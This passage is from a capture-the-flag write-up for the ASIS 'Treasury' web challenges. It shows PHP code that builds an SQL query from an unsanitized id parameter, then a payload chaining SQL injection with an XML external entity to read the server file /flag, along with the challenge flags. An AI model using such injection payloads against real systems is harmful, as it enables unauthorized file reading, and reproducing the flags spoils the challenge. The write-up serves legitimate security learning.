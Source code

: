 ```php

} elseif ($type === "excerpt") {
  $id = @$_GET["id"];
  $book = find_book("id='$id'");
  $bookExcerpt = $book->excerpt;
  echo $bookExcerpt;

} else {
  echo "Invalid type";
}
```

Flag: ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884}

## <a name="treasury-2"></a> Treasury #2
Points: 59
#### Description
>[A Cultural Treasury](https://poems.asisctf.com/)
### Solution
For full write-up please read the solution from [Treasury #1](#treasury-1). The challenges are related and I should copy almost everything from the write-up of the first challenge. As a summary: we can SQLi on the `id` parameter and from there we have to do a XXE to get the flag. If this doesn't make sense, please read the write-up of the first challenge.

After solving the previous challenge we get the next information:
>```<flag>OK! You can use ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884} flag, but I keep the `/flag` file secure :-/</flag>```

We can combine SQLi with XXE to retrive the flag from `/flag`.

Payload: ```4' union select '<!DOCTYPE excerpt [<!ENTITY test SYSTEM "file:///flag">]><root><id>4</id><excerpt>&test;</excerpt></root>```

![image](https://user-images.githubusercontent.com/38787278/86520163-28d31180-be4a-11ea-8753-182d6e61c8cc.png)

Flag: ASIS{03482b1821398ccb5214d891aed35dc87d3a77b2}
